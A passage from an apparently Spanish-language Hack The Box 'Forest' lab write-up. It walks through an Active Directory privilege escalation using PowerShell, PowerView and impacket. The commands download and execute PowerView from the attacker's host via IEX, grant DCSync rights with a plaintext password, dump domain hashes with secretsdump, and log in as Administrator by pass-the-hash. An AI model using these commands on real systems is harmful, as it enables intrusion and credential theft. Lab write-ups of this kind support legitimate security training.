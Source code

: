```{r, echo = FALSE, fig.cap="Bloodhound abuse WriteDacl", out.width="90%"}
        ```

    - en la maquina victima

        ```bash
        IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/powerview.ps1')
        ```

1. Asignamos el privilegio ds sync al usuario s4vitar

    ```bash
    $SecPassword = ConvertTo-SecureString 's4vit4r123$!' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('htb.local\s4vitar', $SecPassword)
    Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity s4vitar -Rights DCSync
    ```

1. Desde la maquina de atacante podemos lanzar un impacket-secretsdump para recuperar los hashes de los usuarios

    ```bash
    impacket-secretsdump htb.local/s4vitar@10.10.10.161
    ```

Ya tenemos el hash del usuario administrador

```{r, echo = FALSE, fig.cap="DCSync Admin hash", out.width="90%"}
    knitr::include_graphics("images/Forest-dcsync-admin-hash.png")
```

evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d3372a07ceea6'
![Forest-dcsyc-admi-hash](/assets/images/Forest-dcsync-admin-hash.png) 
```


```bash
 WHOAMI -> htb\administrator 
```
 ;)
